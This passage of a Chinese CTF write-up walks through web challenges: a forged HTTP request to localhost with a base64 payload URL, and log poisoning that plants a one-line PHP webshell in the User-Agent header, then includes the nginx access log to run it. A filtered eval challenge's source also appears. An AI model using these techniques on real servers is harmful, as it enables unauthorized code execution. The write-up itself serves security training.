 直接伪造host为127.0.0.1

port为80，因为http默认为80端口

那么对于data的内容就要复杂点了

```
<?php
$out = "GET /flag.php HTTP/1.1\r\n";
$out .= "Host: 127.0.0.1\r\n";
$out .= "Connection: Close\r\n\r\n";
echo base64_encode($out);
?>
```

这里搬运一下别人的代码↑

这个data伪造了一个http请求

```
payload：index.php?host=127.0.0.1&port=80&data=R0VUIC9mbGFnLnBocCBIVFRQLzEuMQ0KSG9zdDogMTI3LjAuMC4xDQpDb25uZWN0aW9uOiBDbG9zZQ0KDQo=
```

## easy\_include

```
<?php
//WEB手要懂得搜索

if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|flag|data|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=/i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
} 
```

这里涉及到了user-agent的木马注入

文件日志默认地址为`/var/log/nginx/access.log`

访问会在日志文件中留下UA头里的东西，抓个包，把ua头改为一句话木马

再将日志文件包含，即可爆出flag

原理：文件包含 include能执行括号内的命令，所以包含了日志的时候，执行了一句话木马。

## Canyource

```
<?php
highlight_file(__FILE__);
if(isset($_GET['code'])&&!preg_match('/url|show|high|na|info|dec|oct|pi|log|data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['code'])){
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
    eval($_GET['code']);}
else
    die('nonono');}
else
    echo('please input code');
?>
```

